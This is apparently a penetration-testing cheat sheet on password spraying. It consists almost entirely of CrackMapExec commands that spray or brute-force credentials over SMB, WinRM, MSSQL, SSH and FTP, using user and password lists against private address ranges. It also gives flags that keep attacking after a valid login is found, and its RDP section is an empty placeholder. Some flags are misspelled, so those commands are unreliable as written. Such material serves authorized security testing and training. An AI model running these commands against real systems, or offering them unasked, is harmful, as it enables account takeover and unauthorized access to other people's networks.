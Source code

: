# Password spraying

### SMB

{% code overflow="wrap" %}
```bash
# Multiple users and a single password
cme smb 192.168.1.101 -u user1 user2 user3 -p Summer1
cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18

# A single user and multiple passwords
cme smb 192.168.1.101 -u user1 -p password1 password2 password3
cme smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt

# multiple users and multiple passwords
cme smb 192.168.1.101 -u user.txt -p user.txt

# No brute-force nad continue spraying until the end of the files.
cme smb 192.168.1.101 -u user.txt -p password.txt --no-bruteforce --continue-on-succes

# By default CME will exit after a successful login is found. Using the --continue-on-success flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
```
{% endcode %}

### WINRM

```bash
cme winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

### MSSQL

```bash
cme mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

### SSH

{% code overflow="wrap" %}
```bash
cme ssh 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

# Use hydra if you need to brute-force ssh. 
```
{% endcode %}

### FTP

```
cme ftp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

### RDP

```
// Some code
```
